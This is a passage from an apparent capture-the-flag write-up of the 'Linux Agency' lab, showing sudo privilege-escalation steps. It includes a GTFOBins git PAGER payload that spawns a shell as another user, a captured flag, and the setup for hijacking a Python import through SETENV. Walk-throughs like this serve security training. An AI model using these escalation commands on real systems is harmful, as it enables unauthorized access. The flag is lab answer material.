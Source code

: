 ### Reza

`sudo -l` reveals:

```bash
Matching Defaults entries for silvio on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User silvio may run the following commands on linuxagency:
    (reza) SETENV: NOPASSWD: /usr/bin/git
```

Using [GTFOBINS](https://gtfobins.github.io/gtfobins/git/) for checking payload

```bash
sudo -u reza PAGER='bash -c "exec bash 0<&1"' git -p help
```

`reza{2f1901644eda75306f3142d837b80d3e}`

### Jordan
`sudo -l` reveals:

```bash
Matching Defaults entries for reza on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User reza may run the following commands on linuxagency:
    (jordan) SETENV: NOPASSWD: /opt/scripts/Gun-Shop.py
```

Executing the */opt/scripts/Gun-Shop.py* the following error appears

```bash
sudo -u jordan /opt/scripts/Gun-Shop.py
Traceback (most recent call last):
  File "/opt/scripts/Gun-Shop.py", line 2, in <module>
    import shop
ModuleNotFoundError: No module named 'shop'
```

```bash
env_reset    If set, sudo will run the command in a minimal environment containing the TERM, PATH, HOME, MAIL, SHELL, LOGNAME, USER, USERNAME and SUDO_* variables. Any variables in the callers environment that match the env_keep and env_check lists are then added, followed by any variables present in the file specified by the env_file option (if any). The default contents of the env_keep and env_check lists are displayed when sudo is run by root with the -V option. If the secure_path option is set, its value will be used for the PATH environment variable. This flag is on by default.

setenv    Allow the user to disable the env_reset option from the command line via the -E option. Additionally, environment variables set via the command line are not subject to the restrictions imposed by env_check, env_delete, or env_keep. As such, only trusted users should be allowed to set variables in this manner. This flag is off by default.

```
